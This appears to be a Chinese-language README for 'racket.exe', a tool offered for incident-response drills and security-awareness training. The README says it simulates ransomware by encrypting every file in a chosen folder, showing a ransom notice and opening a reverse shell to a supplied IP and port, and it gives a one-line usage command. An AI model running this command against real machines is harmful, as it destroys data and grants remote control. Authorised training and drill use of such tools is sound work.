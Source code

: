 ## 使用场景
因安服需要进行应急演练及安全意识教育，不能对生产环境造成破坏，故使用模拟勒索进行演示，达到寓教于乐的效果

### 声明

本程序仅模拟勒索病毒环境，加密指定文件夹下的所有文件，在加密完成后显示勒索提示;提供IP及端口可进行反弹shell。 

仅供学习或用于安全意识培训提供参考，未经授权请勿进行破坏性测试，利用提供的信息造成的直接或间接损失，由使用者承担。

### 使用方法

使用参数-h查看
![](image/1.png)

#### 给定IP端口反弹shell,加密指定文件夹中的文件

``` 
racket.exe -H IP -P port "C:\Users\Administrator\Desktop\test"
```

![](image/2.png)

![](image/3.png)

